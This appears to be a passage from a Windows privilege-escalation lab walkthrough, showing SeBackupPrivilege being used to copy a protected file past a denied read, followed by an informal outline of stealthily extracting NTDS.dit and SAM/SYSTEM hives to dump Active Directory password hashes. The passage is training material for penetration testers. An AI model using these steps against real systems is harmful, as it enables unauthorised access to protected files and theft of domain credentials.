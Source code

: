 As we can see above, the privilege was enabled successfully. This privilege can now be leveraged to copy any protected file.

Windows Built-in Groups

```powershell
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.

```

Windows Built-in Groups

```powershell
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

The commands above demonstrate how sensitive information was accessed without possessing the required permissions.

Alright, here’s the no-fluff breakdown of what’s going on here: you're basically yanking the **NTDS.dit** file (the crown jewel of Active Directory) without tripping system alarms, and then cracking it open to pull hashes. Here's the whole flow in Gen Z terms with tips:

🔧 **Tools Used**

- `diskshadow` (to make shadow copies)
- `Copy-FileSeBackupPrivilege` (to copy locked files)
- `reg save` (to grab SYSTEM & SAM)
- `DSInternals` PowerShell module (to extract the creds)
- `secretsdump.py` (optional alternative)

---
